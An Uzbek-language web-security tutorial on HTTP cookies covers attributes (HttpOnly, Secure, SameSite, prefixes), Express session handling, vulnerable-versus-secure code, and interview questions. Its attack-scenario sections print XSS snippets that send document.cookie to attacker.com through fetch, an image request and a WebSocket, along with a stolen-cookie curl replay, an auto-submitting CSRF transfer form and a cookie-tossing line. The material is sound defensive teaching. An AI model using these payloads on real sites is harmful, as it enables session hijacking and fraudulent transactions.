

# Cookies

## Kirish

> [!IMPORTANT]
> **Nima uchun muhim?**  
> Veb-saytingiz xavfsizligini ta'minlashda cookielarni to'g'ri sozlash eng muhim omillardan biridir. Agar siz auth tokenlarni cookie-da saqlab, unga `HttpOnly` va `Secure` bayroqlarini (flags) qo'ymasangiz, xakerlar oddiygina XSS hujumi orqali foydalanuvchining sessiyasini o'g'irlashi mumkin. Yoki `SameSite` atributini noto'g'ri belgilasangiz, saytingiz CSRF hujumlariga osonlikcha taslim bo'ladi. Cookie xavfsizligini bilish — sizni professional darajadagi xavfsiz frontend dasturchiga aylantiradi.

> [!NOTE]
> **Real-hayot analogiyasi: "Mehmonxona Kalit-Kartasi (Key-Card)"**  
> Siz mehmonxonaga bordingiz va ro'yxatdan o'tdingiz (Login). Admin sizga xonangizning plastik kalitini (Cookie) berdi.  
> - **HttpOnly yo'qligi:** Kalitingizni stol ustida qoldirdingiz, uni istalgan odam (XSS - zararli skript) ko'rib, nusxa olib ketishi mumkin.  
> - **HttpOnly borligi:** Kalit maxsus sumkacha ichida bo'lib, uni faqat eshik qulfi (Server) o'qiy oladi, siz ham, boshqalar ham sumkani ocha olmaysiz.  
> - **Secure borligi:** Bu kalit faqat mehmonxonaning maxsus xavfsiz liftlarida (HTTPS) ishlaydi.  
> - **SameSite:** Kalit faqat shu mehmonxona hududida (Same-Site) ishlaydi, uni ko'chada boshqa birov sizni aldab ishlata olmaydi (CSRF).

---

## Cookie Asoslari

Cookie - bu server tomonidan yuborilgan va brauzer tomonidan saqlanadigan kichik ma'lumot parchasidir. Har bir keyingi request'da brauzer cookie'ni serverga qaytaradi.

### Cookie Lifecycle (Cookie Hayot Sikli)



### Cookie Headers

```http
# Server → Browser (Response)
Set-Cookie: sessionId=abc123; Path=/; HttpOnly; Secure; SameSite=Strict

# Browser → Server (Request)
Cookie: sessionId=abc123; theme=dark; language=en
```

### Cookie Turlari

| Cookie Turi | Xususiyati | O'chib ketish vaqti (Expiration) |
| --- | --- | --- |
| **Session Cookie** | `Expires` yoki `Max-Age` belgilanmagan | Brauzer (yoki tab) yopilganda o'chadi |
| **Persistent Cookie** | `Expires`/`Max-Age` ko'rsatilgan | Belgilangan muddat tugaganda yoki o'chirilganda |
| **First-party Cookie** | Joriy domen tomonidan o'rnatilgan | Masalan, `example.com` uchun `example.com` cookielari |
| **Third-party Cookie** | Boshqa domen tomonidan o'rnatilgan | Reklama yoki treker domenlari tomonidan (ko'pincha bloklanadi) |

---

## Cookie Attributes

### Full Cookie Anatomy

```http
Set-Cookie: name=value; Domain=.example.com; Path=/app; Expires=Wed, 09 Jun 2024 10:18:14 GMT; Max-Age=86400; Secure; HttpOnly; SameSite=Strict
```

### 1. Name=Value

```javascript
// Oddiy value
Set-Cookie: sessionId=abc123

// URL encoded (special characters)
Set-Cookie: user=%7B%22id%22%3A1%7D  // {"id":1}

// Server (Node.js)
res.cookie('user', JSON.stringify({ id: 1 })); // Auto-encoded
```

### 2. Domain

```javascript
// Cookie qaysi domain'larga yuboriladi

// Specific domain (+ subdomains)
Set-Cookie: auth=token; Domain=.example.com
// Yuboriladi: example.com, api.example.com, www.example.com

// No Domain attribute (default)
Set-Cookie: auth=token
// Faqat exact domain: example.com (subdomains EMAS)

// ❌ RUXSAT BERILMAYDI
Set-Cookie: auth=token; Domain=.com          // TLD
Set-Cookie: auth=token; Domain=other.com     // Boshqa domain
```

### 3. Path

```javascript
// Cookie qaysi path'larga yuboriladi

Set-Cookie: auth=token; Path=/
// Yuboriladi: /, /api, /api/users, /dashboard

Set-Cookie: auth=token; Path=/api
// Yuboriladi: /api, /api/users
// Yuborilmaydi: /, /dashboard

Set-Cookie: auth=token; Path=/api/v1
// Yuboriladi: /api/v1, /api/v1/users
// Yuborilmaydi: /api, /api/v2
```

### 4. Expires / Max-Age

```javascript
// Expires - absolute date (deprecated, timezone issues)
Set-Cookie: token=abc; Expires=Wed, 09 Jun 2024 10:18:14 GMT

// Max-Age - relative seconds (recommended)
Set-Cookie: token=abc; Max-Age=86400    // 1 kun
Set-Cookie: token=abc; Max-Age=604800   // 7 kun
Set-Cookie: token=abc; Max-Age=0        // Hozir o'chirish

// Session cookie (no expiration)
Set-Cookie: sessionId=abc  // Brauzer yopilganda o'chadi

// Node.js (Express)
res.cookie('token', 'abc', {
  maxAge: 7 * 24 * 60 * 60 * 1000,  // 7 kun (ms)
  // YOKI
  expires: new Date(Date.now() + 7 * 24 * 60 * 60 * 1000)
});
```

### 5. Secure

```javascript
// FAQAT HTTPS orqali yuboriladi

// ✅ Secure flag
Set-Cookie: auth=token; Secure

// HTTP request - cookie yuborilMAYDI
// HTTPS request - cookie yuboriladi

// Development exception: localhost (HTTP) ham ishlaydi

// Node.js
res.cookie('auth', token, {
  secure: process.env.NODE_ENV === 'production'
});
```

### 6. HttpOnly

```javascript
// JavaScript orqali KIRISH MUMKIN EMAS

// ✅ HttpOnly flag
Set-Cookie: sessionId=abc123; HttpOnly

// JavaScript (XSS)
document.cookie  // sessionId KO'RINMAYDI!

// XSS hujum - cookie'ni o'g'irlab bo'lmaydi:
fetch('https://attacker.com/steal?cookie=' + document.cookie);
// sessionId yuborilmaydi!

// Lekin cookie har request'da serverga yuboriladi (normal behavior)
```

### 7. SameSite

```
┌──────────────────────────────────────────────────────────────────────┐
│                        SameSite Attribute                             │
├────────────┬─────────────────────────────────────────────────────────┤
│ Strict     │ Cookie FAQAT same-site request'larda yuboriladi        │
│            │ Cross-site link/form/fetch - cookie YO'Q               │
│            │ CSRF to'liq himoya                                      │
│            │ ⚠️  UX muammo: tashqi linkdan kelganda logout           │
├────────────┼─────────────────────────────────────────────────────────┤
│ Lax        │ Cookie top-level navigation'da yuboriladi               │
│            │ GET link, GET form - cookie YUBORILADI                  │
│            │ POST form, fetch, iframe - cookie YO'Q                  │
│            │ ✅ Balans: CSRF himoya + yaxshi UX                      │
│            │ 🔸 Default (ko'p brauzerlarda)                          │
├────────────┼─────────────────────────────────────────────────────────┤
│ None       │ Cookie BARCHA request'larda yuboriladi                  │
│            │ ⚠️  Secure flag MAJBURIY                                │
│            │ Third-party cookies uchun (analytics, embed)           │
└────────────┴─────────────────────────────────────────────────────────┘
```

```javascript
// Strict - Maximum security
Set-Cookie: sessionId=abc; SameSite=Strict; Secure; HttpOnly

// Lax - Recommended default
Set-Cookie: sessionId=abc; SameSite=Lax; Secure; HttpOnly

// None - Third-party (Secure MAJBURIY)
Set-Cookie: trackingId=xyz; SameSite=None; Secure
```

### SameSite Visual

```
Site A (bank.com)                    Site B (attacker.com)
┌────────────────┐                   ┌────────────────────────────┐
│                │                   │                            │
│  Cookie set:   │                   │  <a href="bank.com/transfer│
│  SameSite=Lax  │                   │     ?to=attacker&amount=   │
│                │                   │     1000000">Click me!</a> │
│                │                   │                            │
└────────────────┘                   └────────────────────────────┘

User clicks link on attacker.com → Navigates to bank.com

With SameSite=Lax:
  - GET navigation → Cookie SENT (user still logged in)
  - POST/fetch → Cookie NOT SENT (CSRF blocked)

With SameSite=Strict:
  - GET navigation → Cookie NOT SENT (user appears logged out)
  - POST/fetch → Cookie NOT SENT

With SameSite=None:
  - All requests → Cookie SENT (CSRF possible!)
```

---

## Session Management

### Server-Side Sessions

```javascript
// Express + express-session
const session = require('express-session');
const RedisStore = require('connect-redis').default;
const redis = require('redis');

const redisClient = redis.createClient();

app.use(session({
  store: new RedisStore({ client: redisClient }),
  secret: process.env.SESSION_SECRET,  // Sign qilish uchun
  name: 'sessionId',                   // Cookie nomi (default: connect.sid)
  resave: false,                       // Har request'da save qilmaslik
  saveUninitialized: false,            // Bo'sh session saqlamaslik
  cookie: {
    httpOnly: true,
    secure: process.env.NODE_ENV === 'production',
    sameSite: 'strict',
    maxAge: 24 * 60 * 60 * 1000,       // 24 soat
    path: '/',
    domain: process.env.COOKIE_DOMAIN
  }
}));

// Session'dan foydalanish
app.post('/login', async (req, res) => {
  const user = await authenticate(req.body);

  // Session'ga ma'lumot yozish
  req.session.userId = user.id;
  req.session.role = user.role;

  // Session ID avtomatik cookie'ga yoziladi
  res.json({ success: true });
});

app.get('/profile', (req, res) => {
  if (!req.session.userId) {
    return res.status(401).json({ error: 'Not authenticated' });
  }

  res.json({ userId: req.session.userId });
});

app.post('/logout', (req, res) => {
  req.session.destroy((err) => {
    if (err) {
      return res.status(500).json({ error: 'Logout failed' });
    }
    res.clearCookie('sessionId');
    res.json({ success: true });
  });
});
```

### Session Security

```javascript
// Session Fixation Prevention
app.post('/login', async (req, res) => {
  const user = await authenticate(req.body);

  // Regenerate session ID after login
  req.session.regenerate((err) => {
    if (err) return res.status(500).send();

    req.session.userId = user.id;
    res.json({ success: true });
  });
});

// Session Timeout
const sessionConfig = {
  cookie: {
    maxAge: 30 * 60 * 1000,  // 30 daqiqa
  },
  rolling: true,  // Har request'da timeout yangilash
};

// Absolute timeout (rolling'dan qat'iy nazar)
app.use((req, res, next) => {
  if (req.session.createdAt) {
    const maxAge = 8 * 60 * 60 * 1000;  // 8 soat
    if (Date.now() - req.session.createdAt > maxAge) {
      return req.session.destroy(() => {
        res.status(401).json({ error: 'Session expired' });
      });
    }
  } else {
    req.session.createdAt = Date.now();
  }
  next();
});
```

---

## Zaif vs Xavfsiz Kod

### 1. Missing HttpOnly Flag

```javascript
// ❌ ZAIF: HttpOnly yo'q
res.cookie('sessionId', sessionId, {
  secure: true,
  sameSite: 'strict'
  // HttpOnly yo'q!
});

// XSS hujum:
<script>
  // Hujumchi session'ni o'g'irlaydi
  const cookies = document.cookie;
  fetch('https://attacker.com/steal?c=' + encodeURIComponent(cookies));
</script>

// ✅ XAVFSIZ: HttpOnly bilan
res.cookie('sessionId', sessionId, {
  httpOnly: true,  // JavaScript orqali o'qib bo'lmaydi
  secure: true,
  sameSite: 'strict'
});
```

### 2. Missing Secure Flag

```javascript
// ❌ ZAIF: Secure yo'q - HTTP orqali ham yuboriladi
res.cookie('authToken', token, {
  httpOnly: true,
  sameSite: 'strict'
  // Secure yo'q!
});

// Agar foydalanuvchi HTTP sahifaga kirsa yoki MITM bo'lsa:
// - Cookie plaintext yuboriladi
// - Hujumchi interceptlab o'qiydi

// ✅ XAVFSIZ: Secure bilan
res.cookie('authToken', token, {
  httpOnly: true,
  secure: true,  // Faqat HTTPS
  sameSite: 'strict'
});

// Development uchun:
res.cookie('authToken', token, {
  httpOnly: true,
  secure: process.env.NODE_ENV === 'production',
  sameSite: 'strict'
});
```

### 3. Missing/Wrong SameSite

```javascript
// ❌ ZAIF: SameSite yo'q (eski brauzerlarda None default)
res.cookie('csrf_token', token, {
  httpOnly: true,
  secure: true
  // SameSite yo'q - eski brauzerda CSRF mumkin
});

// ❌ ZAIF: SameSite=None security-critical cookie'da
res.cookie('sessionId', sessionId, {
  httpOnly: true,
  secure: true,
  sameSite: 'none'  // XATO! CSRF mumkin
});

// ✅ XAVFSIZ: SameSite=Strict yoki Lax
res.cookie('sessionId', sessionId, {
  httpOnly: true,
  secure: true,
  sameSite: 'strict'  // Maximum CSRF protection
});

// Agar tashqi linklar muhim bo'lsa:
res.cookie('sessionId', sessionId, {
  httpOnly: true,
  secure: true,
  sameSite: 'lax'  // GET navigation'da yuboriladi
});
```

### 4. Sensitive Data in Cookie

```javascript
// ❌ ZAIF: Sensitive data cookie'da
res.cookie('user', JSON.stringify({
  id: 123,
  password: 'hashed_password',  // XATO!
  creditCard: '4111...',         // XATO!
  role: 'admin'
}), { httpOnly: true });

// Cookie hajmi katta + sensitive data client'da

// ✅ XAVFSIZ: Faqat session ID
res.cookie('sessionId', 'abc123', {
  httpOnly: true,
  secure: true,
  sameSite: 'strict'
});

// Sensitive data serverda (Redis/Database)
session = {
  id: 'abc123',
  userId: 123,
  role: 'admin',
  // Boshqa data serverda saqlanadi
};
```

### 5. Session Fixation

```javascript
// ❌ ZAIF: Login'dan keyin session ID o'zgarmaydi
app.post('/login', async (req, res) => {
  const user = await authenticate(req.body);
  req.session.userId = user.id;  // Eski session ID saqlanadi
  res.json({ success: true });
});

// Hujum:
// 1. Hujumchi anonymous session oladi: sessionId=abc123
// 2. Victim'ga link yuboradi: bank.com/?sessionId=abc123
// 3. Victim login qiladi - hujumchining sessionId ishlatiladi
// 4. Hujumchi abc123 bilan victim sifatida kiradi

// ✅ XAVFSIZ: Session regeneration
app.post('/login', async (req, res) => {
  const user = await authenticate(req.body);

  // Yangi session ID generatsiya qilish
  req.session.regenerate((err) => {
    if (err) return res.status(500).send();

    req.session.userId = user.id;
    res.json({ success: true });
  });
});
```

### 6. Weak Cookie Signing

```javascript
// ❌ ZAIF: Weak secret
const session = require('express-session');
app.use(session({
  secret: 'secret',           // XATO! Dictionary word
  secret: 'password123',       // XATO! Brute-force'able
  secret: process.env.SECRET  // XATO agar env weak bo'lsa
}));

// Hujumchi secret'ni topib, session cookie'ni forge qiladi

// ✅ XAVFSIZ: Strong, random secret
const crypto = require('crypto');
const secret = crypto.randomBytes(64).toString('hex');

app.use(session({
  secret: process.env.SESSION_SECRET,  // 64+ chars random
  // Yoki multiple secrets (rotation)
  secret: [
    process.env.SESSION_SECRET_NEW,
    process.env.SESSION_SECRET_OLD  // Eski token'lar uchun
  ]
}));
```

---

## Real Attack Scenarios

### Scenario 1: Session Hijacking via Missing HttpOnly

```javascript
// Zaif sayt:
res.cookie('sessionId', sessionId);  // HttpOnly yo'q

// Hujumchi XSS topdi (comment, input, etc.)
// Malicious script:
<script>
  // Cookie'larni o'g'irlash
  new Image().src = 'https://attacker.com/steal?c=' +
    encodeURIComponent(document.cookie);

  // Yoki WebSocket orqali
  const ws = new WebSocket('wss://attacker.com/ws');
  ws.onopen = () => ws.send(document.cookie);
</script>

// Hujumchi olingan sessionId bilan:
curl -H "Cookie: sessionId=stolen_session" https://victim.com/api/user
// → Victim sifatida kirildi!
```

**Himoya:**
```javascript
res.cookie('sessionId', sessionId, {
  httpOnly: true,  // XSS o'g'irlab olmaydi
  secure: true,
  sameSite: 'strict'
});
```

### Scenario 2: Session Sidejacking (MITM)

```
Victim ────────────▶ Coffee Shop WiFi ────────────▶ Server
         HTTP request (no HTTPS)
         Cookie: sessionId=abc123

                    │
                    │ Hujumchi sniff qiladi
                    ▼

         Hujumchi sessionId=abc123 ni oldi
```

```javascript
// Zaif: Secure flag yo'q
res.cookie('sessionId', sessionId, {
  httpOnly: true
  // Secure yo'q!
});

// HTTP fallback bo'lganda cookie plaintext
```

**Himoya:**
```javascript
// Secure flag
res.cookie('sessionId', sessionId, {
  httpOnly: true,
  secure: true  // Faqat HTTPS
});

// HSTS header
res.setHeader('Strict-Transport-Security',
  'max-age=31536000; includeSubDomains; preload');
```

### Scenario 3: Cross-Site Request Forgery

```html
<!-- attacker.com sahifasida -->

<!-- Auto-submitting form -->
<form id="csrf" action="https://bank.com/transfer" method="POST" style="display:none">
  <input name="to" value="attacker_account">
  <input name="amount" value="10000">
</form>
<script>document.getElementById('csrf').submit();</script>

<!-- Victim bank.com'ga login qilgan -->
<!-- Form submit bo'lganda bank.com cookie yuboriladi -->
<!-- Transfer amalga oshadi! -->
```

```javascript
// Zaif: SameSite yo'q
res.cookie('sessionId', sessionId, {
  httpOnly: true,
  secure: true
  // SameSite yo'q - eski brauzerlarda CSRF
});
```

**Himoya:**
```javascript
// SameSite
res.cookie('sessionId', sessionId, {
  httpOnly: true,
  secure: true,
  sameSite: 'strict'  // Cross-site POST'da cookie yuborilmaydi
});

// + CSRF token (defense in depth)
```

### Scenario 4: Cookie Tossing Attack

```javascript
// Hujumchi subdomain kontrolida: evil.example.com
// Parent domain cookie o'rnatadi:

document.cookie = "sessionId=malicious; domain=.example.com; path=/";

// Victim example.com ga kirganda:
// - Brauzer ikkala cookie yuboradi
// - Server qaysi birini ishlatishini bilmaydi
// - Session fixation mumkin
```

**Himoya:**
```javascript
// __Host- prefix (domain restrict)
res.cookie('__Host-sessionId', sessionId, {
  httpOnly: true,
  secure: true,
  sameSite: 'strict',
  path: '/'
  // Domain o'rnatib bo'lmaydi - faqat exact host
});

// __Secure- prefix (secure required)
res.cookie('__Secure-sessionId', sessionId, {
  httpOnly: true,
  secure: true,
  sameSite: 'strict'
});
```

---

## Best Practices

### 1. Production Cookie Configuration

```javascript
// Secure cookie factory
const createSecureCookie = (name, value, options = {}) => {
  const isProduction = process.env.NODE_ENV === 'production';

  const defaultOptions = {
    httpOnly: true,
    secure: isProduction,
    sameSite: 'strict',
    path: '/',
    maxAge: 24 * 60 * 60 * 1000,  // 1 kun default
  };

  return {
    name,
    value,
    options: { ...defaultOptions, ...options }
  };
};

// Session cookie
const sessionCookie = createSecureCookie('sessionId', sessionId, {
  maxAge: 30 * 60 * 1000,  // 30 daqiqa
});

// Remember me cookie
const rememberCookie = createSecureCookie('rememberToken', token, {
  maxAge: 30 * 24 * 60 * 60 * 1000,  // 30 kun
});

// Apply
res.cookie(sessionCookie.name, sessionCookie.value, sessionCookie.options);
```

### 2. Cookie Prefixes

```javascript
// __Host- prefix (recommended for session cookies)
// - Secure flag MAJBURIY
// - Path=/ MAJBURIY
// - Domain attribute MUMKIN EMAS
res.cookie('__Host-sessionId', sessionId, {
  httpOnly: true,
  secure: true,
  sameSite: 'strict',
  path: '/'
  // domain: undefined - o'rnatib bo'lmaydi!
});

// __Secure- prefix
// - Secure flag MAJBURIY
res.cookie('__Secure-csrf', csrfToken, {
  httpOnly: true,
  secure: true,
  sameSite: 'strict'
});
```

### 3. Multi-Domain Cookie Strategy

```javascript
// API va Frontend alohida domain'larda
// api.example.com + app.example.com

// Option 1: Shared parent domain
res.cookie('sessionId', sessionId, {
  domain: '.example.com',  // Ikkalasiga ham
  httpOnly: true,
  secure: true,
  sameSite: 'lax'  // Cross-subdomain ishlashi uchun
});

// Option 2: Token-based (JWT) + CORS
// Cookie emas, Authorization header

// Option 3: Same-origin reverse proxy
// Nginx barcha request'larni bitta domain'dan serve qiladi
```

### 4. Cookie Consent (GDPR)

```javascript
// Essential cookies (consent kerak emas)
const essentialCookies = ['sessionId', 'csrfToken', 'language'];

// Non-essential (consent kerak)
const trackingCookies = ['analytics', 'marketing'];

// Check consent
const setTrackingCookie = (name, value, res) => {
  const consent = req.cookies.cookieConsent;

  if (consent && JSON.parse(consent).tracking) {
    res.cookie(name, value, {
      secure: true,
      sameSite: 'lax',
      maxAge: 365 * 24 * 60 * 60 * 1000
    });
  }
};
```

### 5. Security Checklist

```
□ HttpOnly flag set on sensitive cookies
□ Secure flag set in production
□ SameSite=Strict or Lax
□ Appropriate Path restriction
□ Domain restriction (minimal scope)
□ Short expiration for sensitive cookies
□ __Host- or __Secure- prefix
□ Session regeneration after login
□ Session timeout (idle + absolute)
□ Logout properly destroys session
□ Cookie encryption for sensitive values
□ HSTS header enabled
```

---

## Interview Savollari

### 1. HttpOnly va Secure flag'lar nima qiladi?

**Javob:**

**HttpOnly:**
- Cookie'ni JavaScript orqali o'qishni bloklaydi
- `document.cookie` da ko'rinmaydi
- XSS hujumida cookie o'g'irlanishini oldini oladi
- Cookie faqat HTTP request'larda serverga yuboriladi

**Secure:**
- Cookie faqat HTTPS orqali yuboriladi
- HTTP request'da cookie yuborilmaydi
- MITM (Man-in-the-Middle) hujumini oldini oladi
- Plaintext sniffing'dan himoya

**Birga ishlatish:**
```javascript
res.cookie('session', value, {
  httpOnly: true,  // XSS protection
  secure: true     // MITM protection
});
```

---

### 2. SameSite attribute qanday ishlaydi va uning qiymatlari nima?

**Javob:**

SameSite cookie'ning cross-site request'larda yuborilishini boshqaradi:

| Value | Cross-site GET | Cross-site POST | Use Case |
|-------|----------------|-----------------|----------|
| Strict | Yuborilmaydi | Yuborilmaydi | Max security |
| Lax | Yuboriladi (nav) | Yuborilmaydi | Default |
| None | Yuboriladi | Yuboriladi | Third-party |

**Strict:** CSRF to'liq bloklaydi, lekin tashqi linkdan kelganda logout qiladi.

**Lax:** Top-level GET navigation'da yuboriladi (link click), POST/fetch'da emas. Yaxshi balans.

**None:** Secure flag MAJBURIY. Faqat third-party embedding uchun.

---

### 3. Session fixation attack nima va qanday oldini olinadi?

**Javob:**

**Attack mexanizmi:**
1. Hujumchi anonymous session oladi: `sessionId=abc123`
2. Victim'ga link yuboradi: `site.com?sid=abc123`
3. Victim shu session bilan login qiladi
4. Hujumchi `abc123` bilan victim sifatida kiradi

**Prevention:**

1. **Session regeneration:**
```javascript
req.session.regenerate(() => {
  req.session.userId = user.id;
});
```

2. **URL'dan session qabul qilmaslik:**
```javascript
app.use(session({
  cookie: { ... },
  // URL query'dan session olmaslik (default)
}));
```

3. **Login'da IP/User-Agent o'zgarishini tekshirish**

---

### 4. Cookie vs localStorage security jihatdan farqi?

**Javob:**

| Aspect | Cookie (HttpOnly) | localStorage |
|--------|-------------------|--------------|
| XSS Access | Yo'q | Ha (o'qiladi) |
| CSRF Risk | Ha | Yo'q |
| Server yuborish | Avtomatik | Manual (header) |
| Capacity | 4KB | 5-10MB |
| Expiration | Built-in | Manual |

**Recommendation:**

- **Session/Auth token:** HttpOnly Cookie (XSS xavfsiz)
- **Non-sensitive data:** localStorage OK
- **Sensitive data (API keys):** HECH BIR CLIENT STORAGE (server-side only)

---

### 5. __Host- va __Secure- cookie prefix'lari nima?

**Javob:**

Bu prefix'lar brauzer tomonidan enforce qilinadigan security qoidalari:

**__Host-:**
```javascript
// Majburiy: Secure=true, Path=/
// MUMKIN EMAS: Domain attribute
__Host-sessionId=abc; Secure; Path=/
```
- Subdomain'dan set qilib bo'lmaydi
- Cookie tossing attack'dan himoya

**__Secure-:**
```javascript
// Majburiy: Secure=true
__Secure-token=xyz; Secure; Path=/api
```
- Faqat HTTPS orqali o'rnatiladi
- Domain, Path cheklovsiz

**Qachon ishlatish:**
- Session cookies: `__Host-` (maksimal himoya)
- Boshqa xavfsiz cookielar: `__Secure-`

---

## Eng Yaxshi Amaliyotlar (Best Practices)

1. **HttpOnly va Secure bayroqlarini doim yoqing:** Maxfiy ma'lumotlar saqlanadigan cookielarga (masalan, auth token) har doim `HttpOnly; Secure;` atributlarini o'rnating. Bu XSS orqali sessiyangizni o'g'irlashlarini 99% ga to'xtatadi.
2. **SameSite=Strict yoki Lax ishlatish:** CSRF hujumlaridan himoyalanish uchun SameSite atributini `Lax` (tavsiya etilgan) yoki `Strict` deb sozlang. `SameSite=None` ni faqat alohida domenlararo (cross-site) aloqa zarur bo'lsagina ishlating va bunda `Secure` majburiyligini unutmang.
3. **Prefixlardan foydalaning:** Eng yuqori xavfsizlik uchun session cookielarga `__Host-` prefiksini bering. Bu cookie-faylni faqat HTTPS orqali va faqat joriy domendagina ishlashini kafolatlaydi (subdomenlar ta'sir qilolmaydi).

---

## Xulosa

Cookie xavfsizligi bo'yicha yakuniy xulosa:

| Xavfsizlik darajasi | Atributlar | Natija |
| --- | --- | --- |
| **Xavfli (Zaif)** | `sessionId=123` | XSS va CSRF hujumlariga ochiq |
| **O'rtacha** | `sessionId=123; HttpOnly; Secure` | XSS dan himoyalangan, CSRF xavfi bor |
| **Yuqori (Tavsiya etiladi)**| `__Host-sessionId=123; HttpOnly; Secure; SameSite=Lax; Path=/` | XSS va CSRF dan maksimal himoya |
